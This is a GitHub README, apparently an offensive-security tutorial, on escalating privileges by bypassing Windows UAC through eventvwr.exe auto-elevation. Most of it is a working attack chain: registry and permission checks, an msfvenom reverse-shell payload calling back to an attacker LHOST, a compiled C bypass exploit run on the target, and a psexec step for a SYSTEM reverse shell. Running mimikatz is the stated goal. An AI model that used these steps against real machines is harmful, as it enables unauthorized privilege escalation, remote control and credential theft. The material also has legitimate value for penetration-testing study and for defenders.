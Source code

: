 # UAC-bypass

If you're in Administrator group but are on Medium Mandatory Level, you can't run some commands and tool due to User Account Control. One should need to bypass UAC to get on High Mandatory Level, from there we can become SYSTEM. With UAC enabled we can't run tools like mimikatz, and sometime commands like changing administrator password etc.

# Exploitation

## Check for Permissions
```markdown
whoami /all
```
![OnPaste 20220608-165652](https://user-images.githubusercontent.com/106917304/172605390-b7dfb995-c707-45cd-be78-9c7d2f23c4a5.png)

We're in administrator group and on Medium Mandatory Level.
## Check For UAC is Enabled
```markdown
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System 
```
![OnPaste 20220608-170237](https://user-images.githubusercontent.com/106917304/172606326-7b52b703-d024-4c97-ad19-29105d509a2f.png)

EnableLUA tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys 
PromptSecureDesktop is on.


First we ensure that eventvwr.exe exists and is set to autoelevate to High integrity.
```markdown
where /r C:\\windows eventvwr.exe
```
![OnPaste 20220608-170657](https://user-images.githubusercontent.com/106917304/172607955-1ffda1af-2254-4a7e-86a8-7ee739529943.png)


Upload [strings64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/strings64.exe) to target machine.
```markdown
strings64.exe -accepteula C:\\Windows\\System32\\eventvwr.exe | findstr /i autoelevate
```

![OnPaste 20220608-171241](https://user-images.githubusercontent.com/106917304/172608066-79407888-b78d-4484-b071-6fed6d09ca48.png)

We can see the value is set to True.

## Making of an Exploit

Now on Atacker machine generate msfvenom payload:
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 -f exe > shell.exe
```
we gonna use [eventvwr-bypassuac.c](https://github.com/k4sth4/UAC-bypass/blob/main/eventvwr-bypassuac.c)


NOTE: Remember the name of the reverse shell that we generated with masfvenom is shell.exe. If you have given another name to payload, must change the name in C script and both our shell.exe and eventvwr-bypassuac.c needs to be on same directory on attacker vm.

We need to compile the C script to get our exploit.
```markdown
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
```

![OnPaste 20220608-172613](https://user-images.githubusercontent.com/106917304/172610444-fbd93a1f-09bf-4a31-b099-0d9f371391b3.png)


## Reverse Shell

Now upload shell.exe and eventvwr-bypassuac-64.exe to target machine and execute eventvwr-bypassuac-64.exe.  
```markdown
.\eventvwr-bypassuac-64.exe 
```
![OnPaste 20220608-173002](https://user-images.githubusercontent.com/106917304/172611083-5c94570f-2d4b-4eef-a7a8-5ea6308fd890.png)

Got Reverse Shell.

![OnPaste 20220608-173131](https://user-images.githubusercontent.com/106917304/172611380-ad7daa97-e036-4d7a-9717-3c8740496d66.png)

We can see that now we are on High Mandatory Level.

![OnPaste 20220608-173341](https://user-images.githubusercontent.com/106917304/172611822-9f2d5991-d494-40a2-9815-ef76f572cfa4.png)

Now we can run mimikatz!

If you want SYSTEM shell we can now become SYSTEM with [psexec64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/psexec64.exe)

Upload psexec64.exe and shell.exe on target machine with High Mandatory Level. Now execute psexec64.exe with shell.exe.
```markdown
.\psexec64.exe -i -accepteula -d -s C:\\programdata\\shell.exe
```

After that we'll get a reverse shell as SYSTEM.

